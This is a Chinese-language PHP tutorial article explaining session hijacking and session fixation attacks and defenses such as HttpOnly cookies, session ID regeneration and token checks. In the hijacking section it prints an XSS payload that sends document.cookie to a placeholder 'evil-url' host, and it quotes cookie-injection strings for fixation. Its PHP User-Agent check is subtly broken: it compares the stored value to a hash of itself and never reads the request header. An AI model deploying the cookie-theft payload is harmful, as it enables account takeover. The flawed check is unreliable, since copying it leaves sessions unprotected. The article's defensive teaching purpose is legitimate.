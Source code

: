## Session攻击手段(会话劫持/固定)及其安全防御措施

PHP开源社区  *2019. October. 31*

#### 一、概述

对于Web应用程序来说，加强安全性的第一条原则就是——不要信任来自客户端的数据，一定要进行数据验证以及过滤才能在程序中使用，进而保存到数据层。然而，由于Http的无状态性，为了维持来自同一个用户的不同请求之间的状态，客户端必须发送一个唯一的身份标识符（Session ID）来表明自己的身份。

很显然，这与前面提到的安全原则是相违背的，但是没有办法，为了维持状态，我们别无选择，这也导致了Session在web应用程序中是十分脆弱的一个环节。

由于PHP内置的Session管理机制并没有提供安全处理，所以，开发人员需要建立相应的安全机制来防范会话攻击。针对Session的攻击手段主要有会话劫持（Session hijacking）和会话固定（Session fixation）两种。

#### 二、会话劫持（Session hijacking）

会话劫持（Session hijacking），这是一种通过获取用户Session ID后，使用该Session ID登录目标账号的攻击方法，此时攻击者实际上是使用了目标账户的有效Session。会话劫持的第一步是取得一个合法的会话标识来伪装成合法用户，因此需要保证会话标识不被泄漏。

##### 攻击步骤：

- 目标用户需要先登录站点；

- 登录成功后，该用户会得到站点提供的一个会话标识SessionID；

- 攻击者通过某种攻击手段捕获Session ID；

- 攻击者通过捕获到的Session ID访问站点即可获得目标用户合法会话。

![images\session hijacking](images\session hijacking.webp)

##### 攻击者获取SessionID的方式有多种：

- 暴力破解：尝试各种Session ID，直到破解为止；

- 预测：如果Session ID使用非随机的方式产生，那么就有可能计算出来；

- 窃取：使用网络嗅探，XSS攻击等方法获得

PHP内部Session的实现机制虽然不是很安全，但是关于生成SessionID的环节还是比较安全的，这个随机的SessionID往往是极其复杂的并且难于被预测出来，所以，对于第一、第二种攻击方式基本上是不太可能成功的。

在第三种攻击方式中，针对网络嗅探攻击，是通过捕获网络通信数据得到SessionID的，这种攻击可以通过SSL避免。本文主要分析的是应用层面的攻击方式及其防御方法。

目前有三种广泛使用的在Web环境中维护会话（传递SessionID）的方法：URL参数，隐藏域和Cookie。其中每一种都各有利弊，Cookie已经被证明是三种方法中最方便最安全的。

从安全的观点，如果不是全部也是绝大多数针对基于Cookie的会话管理机制的攻击对于URL或是隐藏域机制同样适用，但是反过来却不一定，这就让Cookie成为从安全考虑的最佳选择。  

使用Cookie而产生的一个风险是用户的Cookie会被攻击者所盗窃。如果Session ID保存在Cookie中，Cookie的暴露就是一个严重的风险，因为它能导致会话劫持。

最基本的Cookie窃取方式：XSS漏洞。

一旦站点中存在可利用的XSS漏洞，攻击者可直接利用注入的JS脚本获取Cookie，进而通过异步请求把存有Session ID的Cookie上报给攻击者。

```javascript
var img = document.createElement('img');
img.src = 'http://evil-url?c=' +encodeURIComponent(document.cookie);
document.getElementsByTagName('body')[0].appendChild(img);
```

如何寻找XSS漏洞是另外一个话题了，这里不详细讨论。防御上可以设置Cookie的HttpOnly属性，一旦一个Cookie被设置为HttpOnly，JS脚本就无法再获取到，而网络传输时依然会带上，也就是说依然可以依靠这个Cookie进行Session维持，但客户端JS对其不可见。

那么即使存在XSS漏洞也无法简单的利用其进行Session劫持攻击了。但是上面说的是无法利用XSS进行简单的攻击，但是也不是没有办法的。既然无法使用document.cookie获取到，可以转而通过其他的方式。

##### 下面介绍一种XSS结合其他漏洞的攻击方式。

利用PHP开发的应用会有一个phpinfo页面。而这个页面会dump出请求信息，其中就包括Cookie信息。

如果开发者没有关闭这个页面，就可以利用XSS漏洞向这个页面发起异步请求，获取到页面内容后Parse出Cookie信息，然后上传给攻击者。

phpinfo只是大家最常见的一种dump请求的页面，但不仅限于此，为了调试方便，任何dump请求的页面都是可以被利用的漏洞。防御上是关闭所有phpinfo类dump request信息的页面。

##### 防御方法：

1. 更改Session名称。PHP中Session的默认名称是PHPSESSID，此变量会保存在Cookie中，如果攻击者不分析站点，就不能猜到Session名称，阻挡部分攻击。

2. 关闭透明化SessionID。透明化SessionID指当浏览器中的Http请求没有使用Cookie来存放Session ID时，Session ID则使用URL来传递。

3. 设置HttpOnly。通过设置Cookie的HttpOnly为true，可以防止客户端脚本访问这个Cookie，从而有效的防止XSS攻击。

4. 关闭所有phpinfo类dump request信息的页面。

5. 使用User-Agent检测请求的一致性。但有专家警告不要依赖于检查User-Agent的一致性。这是因为服务器群集中的HTTP代理服务器会对User-Agent进行编辑，而本群集中的多个代理服务器在编辑该值时可能会不一致
   
   ```php
   <?php
   session_start();
   if (isset($_SESSION['HTTP_USER_AGENT'])) {
    if ($_SESSION['HTTP_USER_AGENT'] != md5($_SESSION['HTTP_USER_AGENT'])){
    exit();
    }
   }else{
    $_SESSION['HTTP_USER_AGENT'] = md5($_SESSION['HTTP_USER_AGENT']);
   }
   ```

6. 加入Token校验。同样是用于检测请求的一致性，给攻击者制造一些麻烦，使攻击者即使获取了Session ID，也无法进行破坏，能够减少对系统造成的损失。但Token需要存放在客户端，如果攻击者有办法获取到Session ID，那么也同样可以获取到Token
   
   ```php
   <?php
   session_start();
   $token = md5(uniqid(rand(), true));
   $_SESSION['token'] = $token;
   ```
   
   

**三、 会话固定（Session fixation）**

会话固定（Session fixation）是一种诱骗受害者使用攻击者指定的会话标识（SessionID）的攻击手段。这是攻击者获取合法会话标识的最简单的方法。

会话固定也可以看成是会话劫持的一种类型，原因是会话固定的攻击的主要目的同样是获得目标用户的合法会话，不过会话固定还可以是强迫受害者使用攻击者设定的一个有效会话，以此来获得用户的敏感信息。

##### 攻击步骤：

- 攻击者通过某种手段重置目标用户的SessionID，然后监听用户会话状态；

- 目标用户携带攻击者设定的Session ID登录站点；

- 攻击者通过Session ID获得合法会话。
  
  ![images\session fixation](images\session fixation.webp)

##### 攻击者重置SessionID的方式：

重置Session ID的方法同样也有多种，可以是跨站脚本攻击，如果是URL传递Session ID，还可以通过诱导的方式重置该参数，比如可以通过邮件的方式诱导用户去点击重置Session ID的URL，使用Cookie传递可以避免这种攻击。

使用Cookie来存放SessionID，攻击者可以在以下三种可用的方法中选择一种来重置Session ID。

1、使用客户端脚本来设置Cookie到浏览器。大多数浏览器都支持用客户端脚本来设置Cookie的，例如document.cookie=”sessionid=123”，这种方式可以采用跨站脚本攻击来达到目的。防御方式可以是设置HttpOnly属性，但有少数低版本浏览器存在漏洞，即使设置了HttpOnly，也可以重写Cookie。所以还需要加其他方式的校验，如User-Agent验证，Token校验等同样有效。

2、 使用HTML的<META>标签加Set-Cookie属性。服务器可以靠在返回的HTML文档中增加<META>标签来设置Cookie。例如<meta http-equiv=Set-Cookiecontent=”sessionid=123”>，与客户端脚本相比，对<META>标签的处理目前还不能被浏览器禁止。

3、使用Set-Cookie的HTTP响应头部设置Cookie。攻击者可以使用一些方法在Web服务器的响应中加入Set-Cookie的HTTP响应头部。如会话收养，闯入目标服务器所在域的任一主机，或者是攻击用户的DNS服务器。

这里还有一点需要注意，攻击者如果持有的是有效的SessionID，那么防御措施就一定得校验验证。如攻击者可以先到目标站点登录，获得有效的Session ID，然后再拿这个Session ID去重置目标用户的会话标识，那么这时候用户将会在不知情的情况下访问攻击者设定的合法会话（实际上登录的是攻击者的账号了）中，从而攻击者将有可能获取到目标用户的敏感信息。

##### 防御方法：

1. 用户登录时生成新的SessionID。如果攻击者使用的会话标识符不是有效的，那么这种方式将会非常有效。如果不是有效的会话标识符，服务器将会要求用户重新登录。如果攻击者使用的是有效的Session ID，那么还可以通过校验的方式来避免攻击。

2. 大部分防止会话劫持的方法对会话固定攻击同样有效。如设置HttpOnly，关闭透明化Session ID，User-Agent验证，Token校验等。
